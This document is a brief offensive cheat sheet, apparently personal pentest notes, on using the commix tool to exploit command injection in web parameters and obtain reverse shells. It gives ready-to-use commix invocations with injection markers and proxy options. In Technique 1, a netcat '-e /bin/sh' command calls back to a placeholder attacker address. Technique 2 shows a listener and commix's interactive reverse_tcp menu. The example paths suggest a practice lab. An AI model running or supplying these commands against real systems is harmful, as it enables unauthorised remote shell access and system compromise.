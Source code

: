 Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc)
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt
```
Examples
---------
```bash
# Notice the "INJECT_HERE" param
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch 
# Use proxy to make sure you are doing what you think you are
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch --proxy=http://localhost:8080
# --data is used for POST and adds the data to the body, not the url
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php' --data=ip="INJECT_HERE" --os=unix --batch --proxy=http://localhost:8080
```


Technique 1
-----------
```bash
commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```
Technique 2
-----------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
